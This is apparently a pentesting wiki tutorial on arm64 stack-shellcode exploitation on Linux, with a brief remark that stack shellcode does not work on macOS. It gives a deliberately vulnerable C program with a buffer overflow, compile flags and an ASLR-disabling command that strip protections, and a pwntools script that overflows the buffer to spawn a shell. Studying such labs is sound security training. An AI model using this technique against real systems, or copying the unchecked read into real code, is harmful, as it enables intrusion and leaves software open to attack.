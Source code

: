 # Stack Shellcode - arm64


Find an introduction to arm64 in:

[[../../../macos-hardening/macos-security-and-privilege-escalation/macos-apps-inspecting-debugging-and-fuzzing/arm64-basic-assembly.md]]

## Linux

### Code

```c
#include <stdio.h>
#include <unistd.h>

void vulnerable_function() {
    char buffer[64];
    read(STDIN_FILENO, buffer, 256); // <-- bof vulnerability
}

int main() {
    vulnerable_function();
    return 0;
}
```
```
Compile without pie, canary and nx:

```bash
clang -o bof bof.c -fno-stack-protector -Wno-format-security -no-pie -z execstack
```
```
### No ASLR & No canary - Stack Overflow

To stop ASLR execute:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
```
To get the [[../ret2win/ret2win-arm64.md#finding-the-offset|**offset of the bof check this link**]].

Exploit:

```python
from pwn import *

# Load the binary
binary_name = './bof'
elf = context.binary = ELF(binary_name)

# Generate shellcode
shellcode = asm(shellcraft.sh())

# Start the process
p = process(binary_name)

# Offset to return address
offset = 72

# Address in the stack after the return address
ret_address = p64(0xfffffffff1a0)

# Craft the payload
payload = b'A' * offset + ret_address + shellcode

print("Payload length: "+ str(len(payload)))

# Send the payload
p.send(payload)

# Drop to an interactive session
p.interactive()
```
```
The only "complicated" thing to find here would be the address in the stack to call. In my case I generated the exploit with the address found using gdb, but then when exploiting it it didn't work (because the stack address changed a bit).

I opened the generated **`core` file** (`gdb ./bog ./core`) and checked the real address of the start of the shellcode.

## macOS

> [!TIP]
> It's not possible to disable NX in macOS because in arm64 this mode is implemented at hardware level so you can't disable it, so you won't be finding examples with shellcode in stack in macOS.

Check a macOS ret2win example in:

[[../ret2win/ret2win-arm64.md]]


